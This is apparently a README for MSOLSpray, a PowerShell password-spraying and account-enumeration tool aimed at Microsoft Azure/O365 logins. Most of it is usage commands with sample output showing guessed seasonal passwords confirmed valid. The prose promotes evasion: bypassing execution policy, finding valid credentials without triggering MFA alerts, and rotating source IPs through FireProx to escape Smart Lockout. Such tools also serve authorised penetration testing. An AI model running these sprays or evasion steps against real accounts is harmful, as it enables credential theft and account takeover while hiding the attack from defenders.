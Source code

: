 # MSOLSpray

A password spraying tool for Microsoft Online accounts (Azure/O365). The script logs the response of https://login.microsoft.com. This is used for example to indicating if a user cred is valid, if MFA is enabled on the account, if a tenant doesn't exist, if a user doesn't exist, if the account is locked, or if the account is disabled.

BE VERY CAREFUL NOT TO LOCKOUT ACCOUNTS!

## Why another spraying tool?

Yes, I realize there are other password spraying tools for O365/Azure. The main difference with this one is that this tool not only is looking for valid passwords, but also the extremely verbose information Azure AD error codes give you. These error codes provide information relating to if MFA is enabled on the account, if a tenant doesn't exist, if a user doesn't exist, if the account is locked, if the account is disabled, if the password is expired and much more.

So this doubles, as not only a password spraying tool but also a Microsoft Online recon tool that will provide account/domain enumeration. In limited testing it appears that on valid login to the Microsoft Online OAuth2 endpoint it isn't auto-triggering MFA texts/push notifications making this really useful for finding valid creds without alerting the target.

Lastly, this tool works well with [FireProx](https://github.com/ustayready/fireprox) to rotate source IP addresses on authentication requests. In testing this appeared to avoid getting blocked by Azure Smart Lockout.

**Brought to you by:**

[<img src="https://www.blackhillsinfosec.com/wp-content/uploads/2016/03/BHIS-logo-L-300x300.png">](https://www.blackhillsinfosec.com)

## Quick Start

Open a PowerShell terminal from the Windows command line with 'powershell.exe -exec bypass' or run the `Set-ExecutionPolicy` command from the example below.

### Test single username and password

```PowerShell
PS C:\> Set-ExecutionPolicy -S P -e B
PS C:\> Import-Module MSOLSpray.ps1
PS C:\> Invoke-MSOLSpray -Usernames Steve@domain.com -Passwords Winter2020

Time          : 2020-08-14 12:23:44
Username      : Steve@domain.com
Password      : Winter2020
IsValid       : True
ResponseError : None.
```

### Test multiple usernames and passwords

```PowerShell
PS C:\> Invoke-MSOLSpray -Usernames Steve@domain.com,Klaas@domain.nl -Password Winter2020,Zomer2020 | Format-Table

Time                Username         Password   IsValid ResponseError
----                --------         --------   ------- -------------
2020-08-14 12:25:15 Steve@domain.com Winter2020 True    None.
2020-08-14 12:25:15 Klaas@domain.com Winter2020 False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 Steve@domain.nl  Zomer2020  False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 Klaas@domain.nl  Zomer2020  True    None.
```

### Test multiple usernames and passwords using userlists and passwordlists

```PowerShell
PS C:\> Invoke-MSOLSpray -UsernameList C:\users.txt -PasswordList C:\seasons_year.txt,C:\company_name_special_characters.txt | Format-Table

Time                Username         Password    IsValid ResponseError
----                --------         --------    ------- -------------
2020-08-14 12:25:15 Steve@domain.com Spring2020  False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 John@domain.com  Spring020   False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 Steve@domain.com Summer2020  False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 John@domain.com  Summer2020  True    None.
2020-08-14 12:25:15 Steve@domain.com Fall2020    False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 John@domain.com  Fall2020    False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 Steve@domain.com Winter2020  True    None.
2020-08-14 12:25:15 John@domain.com  Winter2020  False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 Steve@domain.com Spring2019  False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 John@domain.com  Spring2019  False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 Steve@domain.com Summer2019  False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 John@domain.com  Summer2019  False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 Steve@domain.com Fall2019    False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 John@domain.com  Fall2019    False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 Steve@domain.com Winter2019  False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 John@domain.com  Winter2019  False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 Steve@domain.com Domain!     False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 John@domain.com  Domain!     False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 Steve@domain.com Domain@     False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 John@domain.com  Domain@     False   AADSTS50126: Error validating credentials due to invalid username or password.
```

### Filter output to only show valid passwords

```PowerShell
PS C:\> $results = Invoke-MSOLSpray -UsernameList C:\users.txt -PasswordList C:\seasons_year.txt,C:\company_name_special_characters.txt
PS C:\> $results | Where-Object {$_.IsValid -eq $true} | Format-Table
Time                Username         Password    IsValid ResponseError
----                --------         --------    ------- -------------
2020-08-14 12:25:15 John@domain.com  Summer2020  True    None.
2020-08-14 12:25:15 Steve@domain.com Winter2020  True    None.
```

### Write valid passwords to a output file

```PowerShell
PS C:\> Invoke-MSOLSpray -Usernames Steve@domain.com -Passwords Winter2020,Summer2020 -OutFile C:\outfile.txt
Valid results have been written to C:\outfile.txt

PS C:\> Get-Content C:\outfile.txt
Steve@domain.com : Winter2020 : None.
```

### Invoke-MSOLSpray Options

```txt
Usernames           - Takes in a single or multiple usernames in the following format "user@domain.com". Can be combined with UsernameList.
UsernameList        - Takes in a single or multiple UsernameList files filled with usernames. Usernames should be entered one-per-line in the following format "user@domain.com". Can be combined with Usernames.
Passwords           - Takes in a single or multiple passwords. Can be combined with PasswordList.
PasswordList        - Takes in a single or multiple PasswordList files with passwords. Entered one-per-line. Can be combined with Passwords.
URL                 - The URL to spray against. Potentially useful if pointing at an API Gateway URL generated with something like FireProx to randomize the IP address you are authenticating from.
Delay               - The delay used to wait between authentication attempts.
UserAgent           - The UserAgent PowerShell will use during the logon the password spray.
IgnoreSSL           - This will disable any SSL/TLS checks preformed by Invoke-WebRequest during the password spray.
OutFile             - A file to output valid results to.
lockout_threshold   - The threshold used to stop the spray when this many locked accounts are detected.
ValidPasswordCodes  - The ErrorCodes that indicate a password was valid but can not be used for reason X.
LockoutCodes        - The ErrorCodes that indicates if a account is locked.
DisableUniqueValues - By default the usernames and passwords are checked for duplicates. Use this switch to disable this check.
Force               - Forces the spray to continue and not stop when multiple account lockouts are detected.
```

